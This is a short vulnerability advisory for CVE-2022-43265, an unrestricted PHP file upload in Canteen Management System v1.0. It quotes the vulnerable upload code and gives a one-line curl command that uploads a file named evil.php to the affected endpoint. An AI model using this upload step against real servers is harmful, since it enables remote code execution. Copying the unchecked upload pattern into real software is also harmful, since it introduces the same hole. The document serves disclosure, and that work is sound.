 ```yaml
---
cve: "CVE-2022-43265"
title: "Unrestricted File Upload in Canteen Management System"
images: [/images/cve-mitre.png]
date: 2022-11-13
tags:
- cve
- file upload
---
```

An arbitrary file upload vulnerability in the component `/pages/save_user.php` of Canteen Management System v1.0 allows attackers to execute arbitrary code via a crafted PHP file.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-43265
- project page: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

<hr />

**Description:**  
Canteen Management System allows unrestricted file upload. An attacker user could craft a `multipart/form-data` request to upload a malicious PHP script.
This could lead to a OS Command Execution.

**Details:**  
File: `/assets/pages/save_user.php`  
```php
$image = $_FILES['image']['name'];
$target = "../uploadImage/Profile/".basename($image);

if (move_uploaded_file($_FILES['image']['tmp_name'], $target)) {
    $msg = "Image uploaded successfully";
}else{
    $msg = "Failed to upload image";
}
```

**Step to reproduce:**  
```bash
curl -I -F "image=@evil.php" "http://www.example.com/assets/pages/save_user.php"
```

The server replies with a status code `500` due to all PHP errors in the code but the file is successfully uploaded.


**PoC:**  
![cve-2022-9999](/images/cve-2022-43265.png)
